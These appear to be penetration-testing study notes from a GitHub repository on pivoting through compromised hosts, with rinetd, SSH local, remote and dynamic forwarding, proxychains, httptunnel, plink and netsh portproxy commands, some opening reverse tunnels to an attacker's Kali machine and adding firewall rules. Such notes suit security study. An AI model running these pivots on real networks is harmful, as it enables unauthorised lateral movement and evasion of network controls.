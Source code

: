 ### Port Forwarding
###### RINETD
```
cat /etc/rinetd.conf
...
# bindadress    bindport  connectaddress  connectport
0.0.0.0 80 142.0.128.189  22
...
service rinetd start
```
###### SSH local port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/d54b48e3-43ed-4fde-ad3f-2d28b538bde5)

forward all packets which go to remote compromised machine:445 to 192.168.1.110:445(PGDATABASE01)
```
remote compromised machine: ssh -N -L 0.0.0.0(src CONFLUENCE01):445:192.168.1.110(dst PGDATABASE01):445 student@PGDATABASE01
```
###### ssh remote port forwarding
```
remote compromised machine: ssh -N -R 192.168.163.52(src):5555(established listening state on this port):127.0.0.1(dst):12345 student@192.168.163.52(src credential) -p 2222
```
###### SSH Dynamic Port Forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/f68cfac3-7e49-4f50-b104-ad7a672958e7)

Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised machine to a further internal network(PGDATABASE01)

After bind proxychains to confluence01, through proxychains all traffic can be forwarded to all ports of PGDATABASE01, accessing 127.0.0.1 is like accessing remote machine(PGDATABASE01)
```
attacker machine: ssh -N -D 127.0.0.1:8080(remote compromised machine) student@10.11.0.128(further internal network)
cat /etc/proxychains.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 8080(remote compromised machine) 
```
###### SSH Remote Dynamic Port Forwarding 
Remote Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised host(which is 192.168.118.4)
```
remote compromised machine: ssh -N -R 9998(src from local loopback interface) kali@192.168.118.4(dst)
```
###### httptunnel
```
sudo apt install httptunnel
hts --forward-port localhost:8888 1234(listening on)
htc --forward-port 8080(listening on) 10.11.0.128:1234
```
### Windows Port forwarding
###### PLINK.exe
```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234(dst):127.0.0.1:3306(source) 10.11.0.4
```
###### Netsh
>for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=4455 listenaddress=10.11.0.22
```
###### ssh.exe
```
linux: 
1. sudo systemctl start ssh
windows: 
1. where ssh
2. ssh.exe -V (the version of OpenSSH bundled with Windows needs to be higher than 7.6, then we can use it for remote dynamic port forwarding)
3. ssh -N -R 9998 kali@192.168.118.4
linux: 
1. ss -ntplu(check socks5 9998 port state)
2. tail /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
3. proxychains command
```
